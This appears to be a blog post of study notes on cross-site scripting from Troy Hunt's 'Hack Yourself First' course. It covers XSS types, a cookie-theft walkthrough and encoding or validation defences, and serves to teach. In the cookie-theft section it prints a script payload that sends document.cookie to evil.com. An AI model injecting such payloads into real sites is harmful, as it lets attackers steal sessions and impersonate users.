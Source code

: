 ```yaml
---
layout: post
section-type: post
title: Hack Yourself First - Ch3 - Cross Site Scripting (XSS)
category: Troy hunt
tags: [ 'Hack Yourself First', 'Ch3' ]
---
```


### Overview
Cross-site Scripting (XSS) is a client-side code injection attack. The attacker aims to execute malicious scripts in a web browser of the victim by including malicious code in a legitimate web page or web application. The actual attack occurs when the victim visits the web page or web application that executes the malicious code. The web page or web application becomes a vehicle to deliver the malicious script to the user’s browser. Vulnerable vehicles that are commonly used for Cross-site Scripting attacks are forums, message boards, and web pages that allow comments.
A web page or web application is vulnerable to XSS if it uses unsanitized user input in the output that it generates. This user input must then be parsed by the victim’s browser.

![alt text](../../../../img/TroyHunt/HackYourselfFirst/ch31.png)

![alt text](../../../../img/TroyHunt/HackYourselfFirst/ch32.png)

![alt text](../../../../img/TroyHunt/HackYourselfFirst/ch33.png)

![alt text](../../../../img/TroyHunt/HackYourselfFirst/ch34.png)

![alt text](../../../../img/TroyHunt/HackYourselfFirst/ch35.png)

![alt text](../../../../img/TroyHunt/HackYourselfFirst/ch36.png)

![alt text](../../../../img/TroyHunt/HackYourselfFirst/ch37.png)

![alt text](../../../../img/TroyHunt/HackYourselfFirst/ch38.png)



### “Isn’t Cross-site Scripting the User’s Problem?”
If an attacker can abuse an XSS vulnerability on a web page to execute arbitrary JavaScript in a user’s browser, the security of that vulnerable website or vulnerable web application and its users has been compromised. XSS is not the user’s problem like any other security vulnerability. If it is affecting your users, it affects you.

Cross-site Scripting may also be used to deface a website instead of targeting the user. The attacker can use injected scripts to change the content of the website or even redirect the browser to another web page, for example, one that contains malicious code.

### Description
Cross-Site Scripting (XSS) attacks occur when:

1.Data enters a Web application through an untrusted source, most frequently a web request.

2.The data is included in dynamic content that is sent to a web user without being validated for malicious content.

The malicious content sent to the web browser often takes the form of a segment of JavaScript, but may also include HTML, Flash, or any other type of code that the browser may execute. The variety of attacks based on XSS is almost limitless, but they commonly include transmitting private data, like cookies or other session information, to the attacker, redirecting the victim to web content controlled by the attacker, or performing other malicious operations on the user’s machine under the guise of the vulnerable site.

### Types of XSS
While the goal of an XSS attack is always to execute malicious JavaScript in the victim's browser, there are few fundamentally different ways of achieving that goal. XSS attacks are often divided into three types:

1.**Persistent XSS**, where the malicious string originates from the website's database.

2.**Reflected XSS**, where the malicious string originates from the victim's request.

3.**DOM-based XSS**, where the vulnerability is in the client-side code rather than the server-side code.

#### Stored XSS Attacks
Consider a web application that allows users to enter a username that is displayed on each user’s profile page. The application stores each username in a local database. A malicious user notices that the web application fails to sanitize the username field and inputs malicious JavaScript code as part of their username. When other users view the attacker’s profile page, the malicious code automatically executes in the context of their session

Refer to the example in **Stealing Cookies Using XSS**

#### Reflected XSS Attacks
In a reflected XSS attack, the malicious string is part of the victim's request to the website. The website then includes this malicious string in the response sent back to the user. The diagram below illustrates this scenario:

![alt text](../../../../img/TroyHunt/HackYourselfFirst/reflected-xss.png)

1.The attacker crafts a URL containing a malicious string and sends it to the victim.

2.The victim is tricked by the attacker into requesting the URL from the website.

3.The website includes the malicious string from the URL in the response.

4.The victim's browser executes the malicious script inside the response, sending the victim's cookies to the attacker's server.


### Stealing Cookies Using XSS
Criminals often use XSS to steal cookies. This allows them to impersonate the victim. The attacker can send the cookie to their own server in many ways. One of them is to execute the following client-side script in the victim’s browser:

```
<script>
window.location="http://evil.com/?cookie=" + document.cookie
</script>
```
The figure below illustrates a step-by-step walkthrough of a simple XSS attack.
**This example illustrated is a persistent XSS attack**

![alt text](../../../../img/TroyHunt/HackYourselfFirst/how-xss-works-910x404.png)

1.The attacker injects a payload into the website’s database by submitting a vulnerable form with malicious JavaScript content.

2.The victim requests the web page from the web server.

3.The web server serves the victim’s browser the page with attacker’s payload as part of the HTML body.

4.The victim’s browser executes the malicious script contained in the HTML body. In this case, it sends the victim’s cookie to the attacker’s server.

5.The attacker now simply needs to extract the victim’s cookie when the HTTP request arrives at the server.

6.The attacker can now use the victim’s stolen cookie for impersonation.

### Methods of preventing XSS

Recall that an XSS attack is a type of code injection: user input is mistakenly interpreted as malicious program code. In order to prevent this type of code injection, secure input handling is needed. For a web developer, there are two fundamentally different ways of performing secure input handling:

1.**Encoding**, which escapes the user input so that the browser interprets it only as data, not as code.

2.**Validation**, which filters the user input so that the browser interprets it as code without malicious commands.


### References:
[Excess XSS](https://excess-xss.com/)
